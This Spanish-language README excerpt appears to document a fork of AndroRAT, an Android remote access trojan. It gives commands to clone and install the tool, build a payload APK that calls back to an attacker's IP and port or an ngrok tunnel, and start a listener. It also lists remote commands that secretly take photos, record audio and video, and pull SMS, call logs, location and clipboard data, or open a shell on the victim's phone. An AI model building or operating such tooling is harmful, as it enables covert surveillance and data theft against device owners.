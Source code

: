 Versión recomendada: Python 3.6 - 3.11 (compatible con 3.12)

```bash
python --version
```

## 🚀 Instalación

```bash
# Clonar este fork
git clone https://github.com/TU_USUARIO/AndroRAT.git
cd AndroRAT

# Instalar dependencias
pip install -r requirements.txt
```

## 🔨 Uso Básico

### Compilar APK

```bash
# Con IP y puerto local
python3 androRAT.py --build -i 192.168.1.100 -p 4444 -o payload.apk

# Con ngrok (túnel público)
python3 androRAT.py --build --ngrok -p 8000 -o payload.apk

# Con icono visible
python3 androRAT.py --build -i 192.168.1.100 -p 4444 -o payload.apk -icon
```

### Iniciar Listener

```bash
python3 androRAT.py --shell -i 0.0.0.0 -p 4444
```

Espera a que el dispositivo objetivo se conecte.

## 📱 Comandos Disponibles

Una vez conectado al dispositivo:

```
deviceInfo          - Información básica del dispositivo
camList             - Listar IDs de cámaras disponibles
takepic [cameraID]  - Tomar fotografía
startVideo [ID]     - Iniciar grabación de video
stopVideo           - Detener grabación y descargar
startAudio          - Iniciar grabación de audio
stopAudio           - Detener audio y descargar
getSMS [inbox|sent] - Obtener mensajes SMS
getCallLogs         - Obtener registros de llamadas
shell               - Abrir shell interactivo
vibrate [times]     - Vibrar el dispositivo
getLocation         - Obtener ubicación GPS
getIP               - Obtener dirección IP
getSimDetails       - Detalles de tarjetas SIM
getClipData         - Contenido del portapapeles
getMACAddress       - Dirección MAC
clear               - Limpiar pantalla
exit                - Cerrar conexión
```
